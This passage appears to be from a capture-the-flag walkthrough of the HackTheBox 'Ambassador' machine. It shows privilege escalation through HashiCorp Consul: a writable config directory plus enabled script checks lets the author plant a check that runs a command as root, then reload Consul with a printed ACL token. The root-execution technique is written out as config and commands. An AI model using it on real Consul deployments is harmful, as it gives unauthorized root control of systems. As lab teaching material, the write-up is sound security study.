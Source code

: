 ```

developer@ambassador:/etc/consul.d$ cat consul.hcl | grep -v "^#" | grep .
data_dir = "/opt/consul"
server = true
bind_addr = "127.0.0.1"
bootstrap_expect=1
acl {
  enabled        = true
  default_policy = "deny"
  down_policy    = "extend-cache"
}
enable_script_checks = true

```

`config.d` is permissioned such that developer can write to it, but not read what’s in it. Presumably config files in that directory should be processed.

#### Script Checks

Looking at the `enable_script_checks` option can lead to [this blog post](https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations) about how Consul can be exploited by script checks. [This page](https://www.consul.io/docs/discovery/checks) talks about how to create checks and includes examples.

The “service definition file” goes into the “agent’s configuration directory”, which I believe is `/etc/consul.d/config.d`.

I’ll grab the example for a script check from the documents page above, and modify it a bit

```

check = {
  id = "0xdf"
  name = "0xdf owned this"
  args = ["/usr/bin/touch", "/tmp/0xdf-test"]
  interval = "10s"
  timeout = "1s"
}

```

This script check will now touch `/tmp/0xdf-test` as root. I’ll use `vim` to write that as `config.d/0xdf.hcl`.

I’ll reload `consul` to refresh the configuration:

```

developer@ambassador:/etc/consul.d$ CONSUL_HTTP_TOKEN='bb03b43b-1d81-d62b-24b5-39540ee469b5' consul reload
Configuration reload triggered

```
